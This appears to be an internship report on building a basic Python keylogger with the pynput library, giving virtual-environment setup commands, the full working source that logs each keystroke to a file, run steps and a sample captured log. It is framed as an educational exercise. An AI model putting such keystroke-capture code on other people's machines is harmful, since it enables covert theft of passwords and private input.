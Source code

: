 # Task 8: Keylogger Creation for Educational Use
## Internship at : Broskieshub.com

## Objective

I’m building a simple keylogger in Python using the `pynput` library to demonstrate how attackers might capture keystrokes for educational purposes only. This helps me understand input monitoring techniques and highlights the importance of security practices.

## Dependencies

- Python 3.13.7
- I install `pynput` in a virtual environment to avoid Kali Linux’s externally managed environment error.

### Setup Virtual Environment

1. I install `python3-venv`:
    
    ```
    sudo apt install python3-venv
    ```
    
2. I create and activate a virtual environment:
    
    ```
    python3 -m venv keylogger_env
    source keylogger_env/bin/activate
    ```
    
3. I install `pynput` inside the virtual environment:
    
    ```
    pip install pynput
    ```
    

**Screenshot Points (SS):**

- After I create and activate the virtual environment (showing terminal output).

![](Screenshots/01_ven.png)

- After I install `pynput` (showing pip output).

![](Screenshots/02_pynput.png)

## Source Code

I save the following as `keylogger.py`:

```python
from pynput.keyboard import Key, Listener
import logging

# Set up logging to file
logging.basicConfig(filename='keylog.txt', level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

def on_release(key):
    if key == Key.esc:  # Stop listener on ESC key
        return False

# Start listener
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```

## Usage Demo

1. I ensure the virtual environment is activated:
    
    ```
    source ~/Desktop/Task8/keylogger_env/bin/activate
    ```
    
2. I run the script:
    
    ```
    python keylogger.py
    ```
    
3. I type sample input.
4. I press ESC to stop.
5. I view the logs in `keylog.txt`.

**Screenshot Points (SS):**

- Terminal showing execution and typing in progress.

![](Screenshots/03_script_run.png)

## Captured Logs 
`These also can be found at [Logs](Evidences/keylog.txt)`

```
2025-09-28 15:53:20,828: Key.shift_r  
2025-09-28 15:53:21,350: 'H'  
2025-09-28 15:53:21,623: 'e'  
2025-09-28 15:53:21,901: 'l'  
2025-09-28 15:53:22,154: 'l'  
2025-09-28 15:53:22,386: 'o'  
2025-09-28 15:53:22,710: Key.space  
2025-09-28 15:53:24,271: Key.shift_r  
2025-09-28 15:53:24,581: 'C'  
2025-09-28 15:53:24,939: 'a'  
2025-09-28 15:53:25,157: 'n'  
2025-09-28 15:53:25,460: Key.space  
2025-09-28 15:53:26,143: 'y'  
2025-09-28 15:53:26,421: 'o'  
2025-09-28 15:53:26,704: 'u'  
2025-09-28 15:53:27,078: Key.space  
2025-09-28 15:53:27,402: 's'  
2025-09-28 15:53:28,579: 'e'  
2025-09-28 15:53:28,809: 'e'  
2025-09-28 15:53:29,297: Key.space  
2025-09-28 15:53:30,782: 'm'  
2025-09-28 15:53:31,019: 'e'  
2025-09-28 15:53:31,313: Key.shift_r  
2025-09-28 15:53:31,693: '?'  
2025-09-28 15:53:32,290: Key.space  
2025-09-28 15:53:32,437: Key.shift_r  
2025-09-28 15:53:35,218: ':'  
2025-09-28 15:53:35,948: ')'  
2025-09-28 15:53:38,105: Key.esc
```

## Notes

- I use this ethically for the demo and deactivated the virtual environment after use:
    
    ```
    deactivate
    ```
    
- This is for learning—I do not deploy it on unauthorized systems.

---
End of report.
